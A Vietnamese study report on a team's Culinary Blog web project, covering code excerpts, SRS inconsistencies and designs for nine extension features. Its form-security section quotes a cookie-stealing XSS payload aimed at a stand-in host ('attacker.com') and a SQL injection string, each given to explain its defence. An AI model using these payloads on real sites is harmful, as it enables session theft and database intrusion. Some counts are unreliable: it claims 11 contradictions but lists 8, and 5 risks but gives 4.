* **Ý nghĩa & Chức năng:** Kẻ tấn công có thể đổi tên file độc hại `webshell.php` hoặc `malware.exe` thành `anh_mon_an.jpg` để đánh lừa hệ thống kiểm tra đuôi file. Đoạn mã trên đọc trực tiếp 4 bytes vật lý đầu tiên trong luồng file để kiểm tra cấu trúc chữ ký tệp chuẩn MIME. Nếu không khớp chữ ký nhị phân, request bị từ chối ngay lập tức trước khi ghi vào MinIO S3.

#### Đoạn mã 2: Đăng xuất an toàn Idempotent & Chống lỗi Token hết hạn ([`AuthEndpoints.cs`](file:///f:/PTUDWebNangCao_2026_Nhom13/backend/src/Presentation/Endpoints/AuthEndpoints.cs#L71-L89))
```csharp
// FR-AUTH-005: Đăng xuất — 204, idempotent.
group.MapPost("/logout", async (ISender sender, HttpContext http) =>
{
    var userId = http.User.FindFirstValue(ClaimTypes.NameIdentifier)
        ?? http.User.FindFirstValue(JwtRegisteredClaimNames.Sub);
    var refreshToken = http.Request.Cookies[RefreshCookieName];

    if (!string.IsNullOrEmpty(userId))
    {
        await sender.Send(new LogoutCommand(userId, refreshToken));
    }
    else if (!string.IsNullOrEmpty(refreshToken))
    {
        await sender.Send(new LogoutCommand("anonymous", refreshToken));
    }

    ClearRefreshCookie(http);
    return Results.NoContent();
});
```
* **Ý nghĩa & Chức năng:** Không sử dụng `.RequireAuthorization()` để tránh lỗi `401 Unauthorized` khi token của người dùng đã hết hạn. Nếu token hết hạn, người dùng vẫn có quyền thu hồi Refresh Token trong Cookie và xóa sạch session, luôn trả về HTTP 204 No Content đúng chuẩn Idempotent theo SRS.

#### Đoạn mã 3: Tự động sắp xếp lại số thứ tự bước nấu ([`Recipe.cs` - Domain Entity](file:///f:/PTUDWebNangCao_2026_Nhom13/backend/src/Domain/Entities/Recipe.cs))
```csharp
public void ReindexSteps()
{
    var sorted = _steps.OrderBy(s => s.StepNumber).ToList();
    for (int i = 0; i < sorted.Count; i++)
    {
        sorted[i].UpdateStepNumber(i + 1);
    }
}
```
* **Ý nghĩa & Chức năng:** Đảm bảo toàn vẹn mô hình Rich Domain Model. Khi tác giả xóa bước số 2 hoặc chèn một bước vào giữa, phương thức này tự động đánh số lại các bước liên tục $1, 2, 3, 4\dots$ loại bỏ hoàn toàn tình trạng đứt đoạn thứ tự hướng dẫn nấu nướng.

---

### 3. Trả lời câu hỏi thiết kế & cài đặt ứng dụng

#### a. Số lượng module / tính năng của ứng dụng
Hệ thống Culinary Blog bao gồm **8 phân hệ chức năng cốt lõi** hoàn chỉnh:
1. **FR-AUTH (001-007):** Quản lý Định danh & Xác thực (Đăng ký, Đăng nhập, Google OAuth PKCE, Refresh Token Rotation, Khóa tài khoản 15 phút, Đăng xuất, Cập nhật Hồ sơ).
2. **FR-CAT (001-005):** Quản lý Danh mục ẩm thực (CRUD Danh mục, Tự sinh Slug tiếng Việt SEO, Phân quyền Admin, Cache phân tán Redis `categories:all` 60 phút).
3. **FR-RCP Core & Extended (001-010):** Quản lý Công thức Nấu ăn (Tạo mới Draft, Xuất bản Publish, Hủy xuất bản, Lưu trữ Archive, Soft-delete, Concurrency Control với RowVersion, CRUD Nguyên liệu, CRUD Bước nấu, Quản lý Thư viện ảnh).
4. **FR-FILE (001-002):** Dịch vụ Tệp tin & Lưu trữ MinIO S3 (Kiểm tra Magic Bytes, Proxy streaming upload, xóa file idempotent).
5. **FR-SRCH (001-004):** Tìm kiếm & Bộ lọc Đa tiêu chí (PostgreSQL Full-Text Search `unaccent` + `tsvector` + `ts_rank`, bộ lọc Category/Difficulty/CookingTime).
6. **FR-JOB (001-003):** Tác vụ nền Hangfire (Xử lý Resize ảnh đa kích thước qua ImageSharp, Gửi Email chào mừng qua MailKit/MailHog, Tự động sinh XML Sitemap).
7. **FR-OBS (001-003):** Giám sát & Quan sát hệ thống (Health Checks liveness/readiness, Structured Logging Serilog với `CorrelationId`, Seq Tracing).
8. **FR-USER / DASHBOARD:** Bảng điều khiển quản trị tập trung (Phân quyền Admin/Author, Quản lý trạng thái khóa người dùng, Danh bạ cộng đồng tác giả).

#### b. Các điểm mâu thuẫn phát hiện trong tài liệu SRS v1.0.0
Qua quá trình phân tích kỹ thuật, nhóm đã phát hiện và lập biên bản **11 điểm mâu thuẫn** trong tài liệu SRS (tài liệu chi tiết tại [`BaoCao_PhanTich_MauThuan_SRS.md`](file:///f:/PTUDWebNangCao_2026_Nhom13/BaoCao_PhanTich_MauThuan_SRS.md)):
1. **Mâu thuẫn 1 (Soft Delete vs Hard Delete):** NFR-REL-003 và mục 7.1/7.2 quy định Recipe dùng Soft Delete (`IsDeleted`), nhưng FR-RCP-007 lại ghi *"Đây là hard delete... Remove(recipe) cascade delete"*.
2. **Mâu thuẫn 2 (Chiến lược Caching):** NFR-SCALE-001 cấm dùng `IMemoryCache` để bảo đảm Stateless, nhưng FR-CAT-001 lại dùng `IMemoryCache` với key `"categories:all"`.
3. **Mâu thuẫn 3 (Vị trí truyền Refresh Token):** Section 5.2 quy định gửi Refresh Token qua JSON Request Body, trong khi NFR-SEC-005 lại quy định cấu hình `HttpOnly; SameSite=Strict` Cookie.
4. **Mâu thuẫn 4 (Bảo mật Upload ảnh):** FR-RCP-008 bắt buộc upload qua Backend API để kiểm tra Magic Bytes, trong khi Section 5.3 lại cho phép dùng *Presigned URL* đẩy thẳng lên MinIO (bỏ qua bước kiểm tra magic bytes của backend).
5. **Mâu thuẫn 5 (Tên trường thông tin người dùng):** FR-AUTH dùng `fullName`, nhưng CSDL và API Spec dùng `displayName` và `bio`.
6. **Mâu thuẫn 6 (Mã lỗi HTTP Status Code):** Lỗi validation lúc ghi 422 lúc ghi 400; lỗi xung đột Concurrency lúc ghi 409 lúc ghi 422.
7. **Mâu thuẫn 7 (Phạm vi tìm kiếm bản nháp):** FR-RCP cho phép tác giả xem bài Draft của mình, nhưng FR-SRCH lại lọc cứng `Status == Published`.
8. **Mâu thuẫn 8 (Quy định xóa danh mục chứa bài viết):** Ràng buộc FK DB `ON DELETE RESTRICT` xung đột với cơ chế Soft Delete danh mục.

#### c. Hướng giải quyết các mâu thuẫn & Lý do lựa chọn
* **Xử lý Mâu thuẫn 1:** Thống nhất áp dụng **Soft Delete toàn diện** cho Recipe. *Lý do:* Bảo vệ dữ liệu lịch sử của tác giả, tránh mất mát dữ liệu vĩnh viễn khi xóa nhầm, đúng chuẩn hệ thống doanh nghiệp.
* **Xử lý Mâu thuẫn 2:** Thống nhất dùng **Redis Distributed Cache** cho toàn bộ hệ thống (kết hợp Redis Backed Output Cache). *Lý do:* Đảm bảo tính Stateless, các instance backend khi scale-out đều nhìn thấy dữ liệu đồng nhất.
* **Xử lý Mâu thuẫn 3:** Thống nhất lưu Refresh Token trong **`HttpOnly; Secure; SameSite=Strict Cookie`**, Access Token lưu In-Memory. *Lý do:* Chống tuyệt đối tấn công XSS đánh cắp Refresh Token theo khuyến nghị bảo mật OWASP.
* **Xử lý Mâu thuẫn 4:** Bắt buộc **Upload qua Backend Proxy API**. *Lý do:* Đảm bảo 100% file đều được kiểm tra mã nhị phân Magic Bytes và quét kích thước an toàn trước khi đẩy vào S3.

#### d. Những điểm/tính năng mới vượt trội so với đặc tả SRS ban đầu
1. **Chế độ In-Dashboard Full Preview & Recipe Studio:** Thay vì chỉ có form nhập thô, nhóm xây dựng bộ công cụ biên tập 2 chế độ (Form 1 trang tinh gọn & Studio 5 tab), tích hợp xem trước toàn cảnh ngay trong Dashboard với thanh Sticky Action Bar 4 nút (`Lưu nháp`, `Lưu trữ`, `Đăng bài`, `Quay lại`).
2. **Cơ chế Tự động đôn Ảnh chính (Auto-promote Primary Image):** Khi tác giả xóa ảnh đang là ảnh đại diện chính, hệ thống tự động chọn bức ảnh phụ đầu tiên còn lại làm ảnh đại diện mới, không để bài viết bị lỗi giao diện.
3. **Phân hệ Quản lý & Kết nối Cộng đồng Tác giả:** Xây dựng trang xem danh sách tác giả ẩm thực, đếm số lượng bài viết thật và hỗ trợ Admin khóa/mở khóa tài khoản an toàn.
4. **Tích hợp Scalar OpenAPI Documentation:** Thay thế giao diện Swagger UI truyền thống bằng Scalar UI (`/scalar/v1`) hiện đại, trực quan, hỗ trợ thử nghiệm API ngay trên trình duyệt.

#### e. Đánh giá tính năng và khối lượng công việc hoàn thành
* Nhóm đã hoàn thành **100% khối lượng công việc được giao và các yêu cầu nghiệp vụ của SRS v1.0.0**.
* **Chất lượng kiểm thử:** Toàn bộ **299/299 bài kiểm thử tự động (Unit Tests & Integration Tests)** trên backend đạt trạng thái **PASS 100% Green**.
* **Frontend:** Đạt `0 lỗi TypeScript` (`npx tsc --noEmit`) và `0 cảnh báo linter`.

---

# PHẦN III – GIẢI QUYẾT VẤN ĐỀ (9 BÀI TOÁN TÍNH NĂNG MỞ RỘNG)

---

### Bài toán 1: Đăng ký nhận thông báo qua Email khi có công thức mới

#### 1. Mô tả bài toán & Giải pháp thiết kế
Cho phép độc giả (cả khách vãng lai và thành viên đã đăng nhập) đăng ký email để nhận bản tin tự động mỗi khi có một công thức nấu ăn mới thuộc danh mục họ yêu thích được xuất bản.

#### 2. Thiết kế Cơ sở Dữ liệu & Kiến trúc
* **Bảng mới `EmailSubscriptions`:**
  - `Id` (uuid, PK)
  - `Email` (varchar(255), Not Null, Indexed)
  - `CategoryId` (uuid, Nullable, FK $\rightarrow$ `Categories.Id` — Nếu Null tức là đăng ký nhận tất cả danh mục)
  - `IsConfirmed` (boolean, Default false — Double Opt-in)
  - `ConfirmationToken` (varchar(100))
  - `CreatedAt` (timestamp)
* **Quy trình luồng xử lý (Flow):**
  1. *Đăng ký:* Khách nhập email tại footer/sidebar $\rightarrow$ Gọi API `POST /api/v1/subscriptions` $\rightarrow$ Lưu bản ghi, sinh token xác nhận.
  2. *Gửi mail xác nhận:* Đẩy job `SendSubscriptionConfirmEmailJob` vào Hangfire gửi mail chứa link xác nhận `https://culinaryblog.com/verify-subscription?token=...`.
  3. *Kích hoạt sự kiện:* Khi tác giả nhấn **"Xuất bản công thức"** (`PublishRecipeCommand` thành công):
     - Handler phát sự kiện nội bộ `RecipePublishedDomainEvent(recipeId)`.
     - Event Handler truy vấn danh sách email đã xác nhận quan tâm đến `CategoryId` này.
     - Đẩy tác vụ hàng loạt `SendBatchNewRecipeEmailJob` vào hàng đợi **Hangfire** để gửi email ngầm không đồng bộ (chia batch 50 email/lần), không làm chậm thời gian phản hồi của tác giả.

#### 3. Ưu và Nhược điểm
* **Ưu điểm:** Giữ chân độc giả (User Retention), tăng traffic tự nhiên, xử lý ngầm qua Hangfire không nghẽn server.
* **Nhược điểm:** Cần cấu hình SPF/DKIM/DMARC chuẩn cho tên miền gửi mail để tránh bị đánh dấu vào hòm thư rác (Spam).

---

### Bài toán 2: Chức năng đặt Banner quảng cáo có thu phí

#### 1. Mô tả bài toán & Giải pháp thiết kế
Cho phép quản trị viên cấu hình các vị trí quảng cáo (Hero Banner trang chủ, Banner cạnh bài viết Sidebar, Banner chèn giữa các bước nấu ăn) và theo dõi số lượt hiển thị (Impressions) và số lượt nhấp chuột (Clicks).

#### 2. Các bước thực hiện & Cơ sở dữ liệu
* **Bảng `AdBanners`:**
  - `Id`, `Title`, `ImageUrl`, `TargetUrl`, `Position` (`HomeHero`, `SidebarSticky`, `RecipeInContent`), `StartDate`, `EndDate`, `MaxImpressions`, `CurrentImpressions`, `CurrentClicks`, `IsActive`.
* **Cơ chế Caching & Tracking chống nghẽn Database:**
  - *Hiển thị Banner:* Danh sách banner đang hoạt động được cache trên Redis (`ads:active:position`) với TTL 10 phút.
  - *Tracking Click / Impression:* Không ghi trực tiếp `UPDATE "AdBanners"` vào PostgreSQL trên mỗi lượt xem (tránh lock DB).
  - Sử dụng lệnh **`INCR` của Redis**: `HINCRBY ads:stats:{adId} impressions 1`.
  - Một Background Job chạy định kỳ mỗi 5 phút đồng bộ số liệu từ Redis về PostgreSQL (`FlushAdStatsToDatabaseJob`).

#### 3. Ưu và Nhược điểm
* **Ưu điểm:** Tạo nguồn doanh thu cho website; cơ chế đệm Redis giúp chịu tải hàng chục nghìn lượt xem đồng thời mà không nghẽn database.
* **Nhược điểm:** Cần cân đối vị trí hiển thị để không làm vỡ trải nghiệm đọc công thức của người dùng.

---

### Bài toán 3: Cung cấp tính năng RSS Feed chuẩn SEO cho Blog

#### 1. Mô tả bài toán & Giải pháp thiết kế
Cung cấp kênh phân phối nội dung tự động chuẩn RSS 2.0 / Atom Feed tại đường dẫn `/feed.xml` hoặc `/rss.xml` để các ứng dụng đọc tin (Feedly, Inoreader) và bot công cụ tìm kiếm tự động cập nhật công thức mới nhất.

#### 2. Các bước triển khai trong .NET 10 Minimal APIs
1. Tạo Endpoint `GET /feed.xml` trong `RecipeEndpoints.cs`.
2. Sử dụng thư viện `System.ServiceModel.Syndication` (chuẩn BCL của Microsoft):
   - Truy vấn 20 công thức mới nhất có trạng thái `Published` (được cache Redis 30 phút).
   - Khởi tạo `SyndicationFeed`, thêm `SyndicationItem` với Tiêu đề, Mô tả ngắn, Liên kết bài viết, Tác giả và Ngày xuất bản.
3. Kết xuất ra định dạng `Rss20FeedFormatter` và trả về với `Content-Type: application/rss+xml; charset=utf-8`.

```csharp
group.MapGet("/feed.xml", async (ISender sender, HttpContext http) =>
{
    var feed = await sender.Send(new GetRssFeedQuery());
    http.Response.ContentType = "application/rss+xml; charset=utf-8";
    using var xmlWriter = XmlWriter.Create(http.Response.BodyWriter.AsStream());
    new Rss20FeedFormatter(feed).WriteTo(xmlWriter);
});
```

#### 3. Ưu và Nhược điểm
* **Ưu điểm:** Cực kỳ nhẹ, chuẩn hóa quốc tế, hỗ trợ phân phối nội dung tự động và tối ưu hóa SEO.
* **Nhược điểm:** Cần chú ý định dạng ngày tháng RFC 822 chuẩn quốc tế để các trình đọc RSS không báo lỗi cú pháp.

---

### Bài toán 4: Chia sẻ bài viết lên Mạng xã hội (Facebook, Twitter, Zalo)

#### 1. Mô tả bài toán & Giải pháp thiết kế
Cho phép độc giả chia sẻ công thức nấu ăn lên Facebook, X (Twitter), Pinterest và Zalo chỉ bằng 1 cú click chuột, đồng thời khi bài viết được chia sẻ, mạng xã hội sẽ hiển thị đúng Ảnh đại diện lớn, Tiêu đề hấp dẫn và Mô tả món ăn.

#### 2. Các bước triển khai kỹ thuật
1. **Cấu hình OpenGraph & Twitter Cards Meta Tags (Next.js 15 Server-side):**
   Trong `app/recipes/[slug]/page.tsx`, sử dụng hàm `generateMetadata` của Next.js:
   ```typescript
   export async function generateMetadata({ params }): Promise<Metadata> {
     const recipe = await getRecipeDetail(params.slug);
     return {
       title: recipe.title,
       description: recipe.description,
       openGraph: {
         title: recipe.title,
         description: recipe.description,
         images: [{ url: recipe.primaryImageUrl, width: 1200, height: 630 }],
         type: 'article',
       },
       twitter: { card: 'summary_large_image' },
     };
   }
   ```
2. **Xây dựng Component `SocialShareBar.tsx` (Client-side):**
   - Tận dụng **Web Share API** của trình duyệt di động: `navigator.share({ title, url })`.
   - Cung cấp các nút chia sẻ trực tiếp qua Intent URL:
     - Facebook: `https://www.facebook.com/sharer/sharer.php?u=${encodeURIComponent(url)}`
     - Twitter: `https://twitter.com/intent/tweet?url=${encodeURIComponent(url)}&text=${encodeURIComponent(title)}`
     - Sao chép liên kết (Copy to Clipboard) kèm Toast thông báo thành công.

---

### Bài toán 5: Cho phép người dùng đánh giá (1-5 sao) công thức món ăn

#### 1. Thiết kế Cơ sở Dữ liệu & Business Rules
* **Bảng `RecipeRatings`:**
  - `Id` (uuid, PK)
  - `RecipeId` (uuid, FK $\rightarrow$ `Recipes.Id`)
  - `UserId` (text, FK $\rightarrow$ `AspNetUsers.Id`)
  - `Score` (int, Ràng buộc $1 \le \text{Score} \le 5$)
  - `CreatedAt`, `UpdatedAt`
  - **Unique Index:** `CREATE UNIQUE INDEX UX_RecipeRatings_User_Recipe ON "RecipeRatings"("RecipeId", "UserId");` $\rightarrow$ Mỗi người dùng **chỉ được đánh giá một lần duy nhất** cho mỗi công thức (đánh giá lại sẽ cập nhật điểm cũ).
* **Bảng `Recipes` (Denormalization để tối ưu đọc):**
  - Thêm 2 cột: `AverageRating` (decimal(3,2)) và `TotalRatings` (integer).

#### 2. Quy trình xử lý
1. Người dùng bấm chọn từ 1 đến 5 sao $\rightarrow$ Gọi `POST /api/v1/recipes/{id}/ratings` (Yêu cầu Authentication).
2. Tác giả **không được tự đánh giá công thức của chính mình** (`recipe.AuthorId == currentUserId` $\rightarrow$ Trả về `400 Bad Request`).
3. Dùng câu lệnh cập nhật nguyên tử (Atomic Update) tính lại `AverageRating` và cập nhật cột denormalized trong bảng `Recipes`.
4. Invalidate cache Redis của chi tiết công thức đó.

---

### Bài toán 6: Module Bình luận đa cấp (Nested Comments) cho công thức

#### 1. Thiết kế Cơ sở Dữ liệu
* **Bảng `RecipeComments`:**
  - `Id` (uuid, PK)
  - `RecipeId` (uuid, FK $\rightarrow$ `Recipes.Id`)
  - `AuthorId` (text, FK $\rightarrow$ `AspNetUsers.Id`)
  - `ParentId` (uuid, Nullable, FK $\rightarrow$ `RecipeComments.Id` — Cho phép bình luận trả lời / Reply dạng cây phân cấp)
  - `Content` (nvarchar(1000), Not Null)
  - `Status` (`Approved`, `Pending`, `Spam`)
  - `IsDeleted` (boolean - Soft delete)
  - `CreatedAt`, `UpdatedAt`

#### 2. Các bước triển khai & Xử lý bảo mật
1. **Lọc nội dung bẩn & XSS:**
   Nội dung bình luận phải được khử khuẩn bằng `HtmlSanitizer` trên backend, loại bỏ toàn bộ thẻ `<script>`, `<iframe>`, `javascript:`.
2. **Hiển thị cây bình luận (Recursive / Nested Comments):**
   Backend truy vấn danh sách bình luận theo `RecipeId`, sắp xếp theo `CreatedAt DESC`, gom nhóm theo `ParentId` trả về cấu trúc cây phân cấp (Tree DTO).
3. **Phân trang bình luận:** Áp dụng Infinite Scroll hoặc phân trang để không làm chậm trang chi tiết công thức khi có hàng nghìn bình luận.

---

### Bài toán 7: Trang Liên hệ (Contact Us) & Tiếp nhận phản hồi người dùng

#### 1. Mô tả yêu cầu
Tạo trang `/contact` hiển thị thông tin liên hệ của ban quản trị Culinary Blog (Email, Hotline, Bản đồ địa chỉ) và form nhập liệu để người dùng gửi thắc mắc, phản hồi hoặc đề nghị hợp tác.

#### 2. Các công việc cần thực hiện
1. **Tạo Bảng `ContactMessages` trong CSDL:**
   - `Id`, `SenderName`, `SenderEmail`, `Subject`, `Message`, `Status` (`New`, `InReview`, `Resolved`), `CreatedAt`, `IpAddress`.
2. **Xây dựng API Endpoint:**
   - `POST /api/v1/contacts`: Endpoint public, áp dụng Rate Limiting (tối đa 3 request / phút / IP) để chống spam form.
   - Xác thực dữ liệu bằng FluentValidation (Email hợp lệ, độ dài tin nhắn từ 10 - 2000 ký tự).
3. **Quy trình xử lý bất đồng bộ:**
   - Khi lưu tin nhắn thành công, phát sinh Hangfire Job:
     - Gửi email thông báo tự động tới Quản trị viên: *"Bạn có tin nhắn liên hệ mới từ độc giả..."*.
     - Gửi email xác nhận tự động tới người gửi: *"Cảm ơn bạn đã liên hệ, chúng tôi sẽ phản hồi trong 24 giờ"*.

---

### Bài toán 8: Module Câu hỏi thường gặp (FAQ) tích hợp Schema FAQPage

#### 1. Các bước thực hiện
1. **Thiết kế Cơ sở Dữ liệu:**
   - Tạo bảng `Faqs`: `Id`, `Question` (nvarchar(255)), `Answer` (nvarchar(2000)), `Category` (`Account`, `Cooking`, `Copyright`), `OrderIndex`, `IsActive`.
2. **Backend API:**
   - `GET /api/v1/faqs`: Trả về danh sách câu hỏi thường gặp đang kích hoạt, cache trên Redis (`faqs:all`, TTL 24 giờ).
3. **Frontend Giao diện & SEO:**
   - Xây dựng giao diện Accordion (đóng/mở câu trả lời mượt mà).
   - Tích hợp dữ liệu có cấu trúc chuẩn SEO **Google FAQPage Schema**:
     ```html
     <script type="application/ld+json">
     {
       "@context": "https://schema.org",
       "@type": "FAQPage",
       "mainEntity": [{
         "@type": "Question",
         "name": "Làm thế nào để đăng công thức nấu ăn?",
         "acceptedAnswer": {
           "@type": "Answer",
           "text": "Bạn chỉ cần đăng ký tài khoản với vai trò Tác giả..."
         }
       }]
     }
     </script>
     ```
     Giúp các câu hỏi thường gặp có cơ hội xuất hiện trực tiếp dưới dạng Rich Snippets trên kết quả tìm kiếm của Google.

---

### Bài toán 9: Rủi ro bảo mật đối với Form nhập liệu & Giải pháp phòng vệ toàn diện

Khi mở các form nhập liệu công khai (như Form Liên hệ, Form Bình luận), hệ thống đối mặt với 5 rủi ro bảo mật nghiêm trọng:



#### Chi tiết Rủi ro & Giải pháp phòng vệ:

1. **Tấn công Cross-Site Scripting (XSS):**
   * *Rủi ro:* Kẻ xấu nhập mã JavaScript vào ô bình luận `<script>fetch('http://attacker.com?c='+document.cookie)</script>`. Khi độc giả khác mở bài viết, mã độc tự động chạy trên trình duyệt của họ.
   * *Giải pháp:*
     - Khử khuẩn đầu vào trên Backend bằng thư viện **`Ganss.Xss.HtmlSanitizer`**.
     - Mã hóa đầu ra (HTML Output Encoding) và sử dụng cơ chế render an toàn mặc định của React/Next.js (JSX tự động encode các chuỗi text).
     - Thiết lập HTTP Header **Content Security Policy (CSP)** cấm thực thi inline script không rõ nguồn gốc.

2. **Tấn công Spam Bot & Làm tràn ngập tài nguyên (Spam Flooding / Application DoS):**
   * *Rủi ro:* Hacker sử dụng script tự động gửi hàng triệu request bình luận rác trong vài giây, làm đầy ổ cứng database và nghẽn CPU server.
   * *Giải pháp:*
     - **Cloudflare Turnstile / Google reCAPTCHA v3:** Xác minh hành vi người dùng vô hình không gây khó chịu.
     - **Kỹ thuật Honeypot Field:** Thêm một input ẩn (`style="display:none" name="website_url"`). Người thật sẽ không thấy trường này, nhưng bot tự động sẽ điền giá trị vào. Nếu server thấy trường này có dữ liệu $\rightarrow$ Âm thầm loại bỏ request.
     - **IP Rate Limiting:** Sử dụng Middleware `AspNetCoreRateLimit` hoặc Redis Token Bucket giới hạn tối đa 5 bình luận / 1 phút / IP.

3. **Tấn công SQL Injection:**
   * *Rủi ro:* Chèn câu lệnh SQL độc hại qua form: `' OR '1'='1`.
   * *Giải pháp:*
     - Sử dụng 100% **EF Core Parameterized Queries** (tự động tham số hóa toàn bộ biến đầu vào).
     - Tuyệt đối không cộng chuỗi SQL thủ công.

4. **Tấn công ReDoS (Regular Expression Denial of Service):**
   * *Rủi ro:* Gửi chuỗi kiểm tra email hoặc văn bản phức tạp khiến regex validation chạy đệ quy vô tận, chiếm dụng 100% CPU của thread.
   * *Giải pháp:* Luôn đặt tham số `matchTimeout` (ví dụ `TimeSpan.FromMilliseconds(100)`) cho toàn bộ các biểu thức chính quy (Regex) trong FluentValidation.

---
*Tài liệu ôn tập được biên soạn hoàn chỉnh, chuẩn mực theo đúng hiện trạng mã nguồn dự án Culinary Blog (Nhóm 13).*
